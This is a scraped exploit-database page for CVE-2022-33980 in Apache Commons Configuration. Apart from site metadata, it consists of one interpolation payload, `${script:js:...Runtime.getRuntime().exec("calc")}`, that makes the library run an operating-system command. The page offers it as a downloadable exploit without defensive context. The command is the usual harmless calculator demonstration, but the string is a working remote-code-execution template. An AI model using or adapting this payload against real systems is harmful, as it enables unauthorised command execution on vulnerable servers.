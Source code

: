 ```yaml
---
title: Exploit for Vulnerability in Apache Commons Configuration exploit
url: https://sploitus.com/exploit?id=06F61093-00F5-5EEB-B6FA-59F105962C41&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-10-18
fetch_date: 2025-10-03T20:04:20.866596
---
```


# Exploit for Vulnerability in Apache Commons Configuration exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for CVE-2022-33980

2022-10-17 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=06F61093-00F5-5EEB-B6FA-59F105962C41
# CVE-2022-33980

`${script:js:java.lang.Runtime.getRuntime().exec("calc")}`
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)